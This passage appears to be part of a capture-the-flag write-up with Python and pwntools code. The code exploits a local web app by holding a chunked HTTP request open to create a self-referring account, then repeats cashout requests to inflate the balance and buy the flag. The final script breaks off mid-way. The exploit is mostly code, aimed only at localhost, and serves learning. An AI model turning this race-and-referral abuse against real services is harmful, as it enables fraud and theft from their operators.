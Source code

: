 ```python
code = requests.get('http://localhost:3000/code', cookies={'token': token}).text.split('<strong>')[1].split('</strong>')[0]
```

3. Complete the request with the chunked data, including `refer=code`:

```python
code_chunk = b'refer=' + code.encode()

# Complete request to create a self-referring account
connection.send(
    (
        f'{len(code_chunk):X}\r\n'.encode() +
        code_chunk +
        b'\r\n' +
        b'0'
        b'\r\n' # end of the zero chunk
        b'\r\n' # end of the whole body
    )
)
```

This will trigger the "end" event and create a self-referring user. The next steps are straightforward:

```python
# Create an account that increase our original account's refer count (0 * anything = 0 innit xD)
requests.post('http://localhost:3000/new', data={'refer':code})

# Increase the ref count by 1.5
for _ in range(70):
    requests.get('http://localhost:3000/cashout', cookies={'token': token})

# Buy the FLAG
flag = requests.get('http://localhost:3000/buy', cookies={'token': token}).text
print(flag)
```

Putting everything together, the complete script is as follows:

```python
#!/usr/bin/env python3

import requests
from pwn import *

# Creates a TCP or UDP-connection to a remote host. It supports both IPv4 and IPv6.
connection = remote('localhost', 3000)

# Send an HTTP request without closing (server doesn't emit 'end' event)
connection.send(
    (
        b'POST /new HTTP/1.1\r\n'
        b'Host: localhost\r\n'
        b'Transfer-Encoding: chunked\r\n'
        b'Content-Type: application/x-www-form-urlencoded\r\n'
        b'\r\n'
    )
)
token = connection.recv().decode().split('token=')[1].split('\r\n')[0]

# Generate chunks to send
code = requests.get('http://localhost:3000/code', cookies={'token': token}).text.split('<strong>')[1].split('</strong>')[0]
code_chunk = b'refer=' + code.encode()

# Complete request to create a self-referring account
```